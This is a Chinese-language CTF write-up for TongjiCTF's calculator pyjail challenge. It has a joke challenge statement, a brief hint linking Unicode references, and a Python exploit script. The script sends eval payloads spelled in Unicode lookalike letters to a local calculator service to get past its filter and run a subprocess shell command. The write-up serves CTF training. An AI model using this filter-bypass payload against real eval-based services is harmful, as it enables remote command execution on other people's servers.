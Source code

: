 # Tongji/同济 MH-12地摊神器摆摊计算器办公文具用品财务用银行用人事用会计学生商务送礼太阳能计算器

## 题面

by *Nemo*

TongjiCTF 组委会很自豪地在 [TongjiWIZ fx-991CN X](https://github.com/Cat-Training-Force/Tongji-CTF-2023/tree/main/Misc/%E5%A4%A9%E7%8B%97%E7%9A%84%E8%AE%A1%E7%AE%97%E5%99%A8) 之后给你带来他们的全新力作：Tongji/同济 MH-12地摊神器摆摊计算器办公文具用品财务用银行用人事用会计学生商务送礼太阳能计算器！我们保留了它的精髓，那就是：

归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零归零

## 思路

[PEP](https://peps.python.org/pep-0672/) [谷歌应该能查到的东西](https://github.com/salvatore-abello/python-ctf-cheatsheet/blob/main/pyjails/how-to-solve-a-pyjail.md) [Python Documentation](https://docs.python.org/3/howto/unicode.html)

所以你只要用 Unicode 去绕就完事了。

写一个 eval 的 payload，然后用 Unicode 替换掉 eval 就行了。

## Exploit

```python
import requests

def main():
    url = 'http://localhost:1338/'
    while True:
        expression = input('expression? > ')
        if expression == 'exit':
            break
        if expression == 'exp':
            base = '__import__("subprocess").check_output("ls", shell=True)'
            base_chr_int = [ord(i) for i in base]
            # expression = r'𝓮𝓿𝓪𝓵(𝕔𝕙𝕣(105) + 𝕔𝕙𝕣(109) + 𝕔𝕙𝕣(112) + 𝕔𝕙𝕣(111) + 𝕔𝕙𝕣(114) + 𝕔𝕙𝕣(116) + 𝕔𝕙𝕣(32) + 𝕔𝕙𝕣(111) + 𝕔𝕙𝕣(115));𝓰𝓮𝓽𝓪𝓽𝓽𝓻(𝐨𝐬, 𝕔𝕙𝕣(115) + 𝕔𝕙𝕣(121) + 𝕔𝕙𝕣(115) + 𝕔𝕙𝕣(116) + 𝕔𝕙𝕣(101) + 𝕔𝕙𝕣(109))(𝕔𝕙𝕣(108) + 𝕔𝕙𝕣(115))'
            expression = f'𝓮𝓿𝓪𝓵({"+".join([f"𝕔𝕙𝕣({i})" for i in base_chr_int])})'
        data = {'expression': expression}
        r = requests.post(url + 'calc', json=data)
        print(r.json()["result"])
        
if __name__ == '__main__':
    main()
```


